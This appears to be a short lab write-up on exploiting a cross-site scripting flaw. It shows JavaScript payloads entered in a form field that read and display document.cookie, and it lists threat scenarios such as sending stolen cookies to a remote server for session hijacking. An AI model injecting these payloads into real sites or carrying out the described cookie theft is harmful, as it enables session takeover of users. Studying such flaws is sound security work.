

# Exploiting XSS vulnerabilities 

## Used payloads
Entering the following input in the form field:
```js
document.getElementById('cookieOutput').innerText = document.cookie;
```
Displays the following output:


The following payloads are also possible:
* Displaying the content of the cookie
```js
alert(document.cookie);
```
* Logging the cookie to the console
```js
console.log(document.cookie);
```

## Scenarios of threats
The following scenarios could be used: 
1. Using this XSS vulnerability to export cookies to a remote server and then use them to hack a user session and perform sensitive actions
2. Injecting a malicious script in a user's client to perform unwanted actions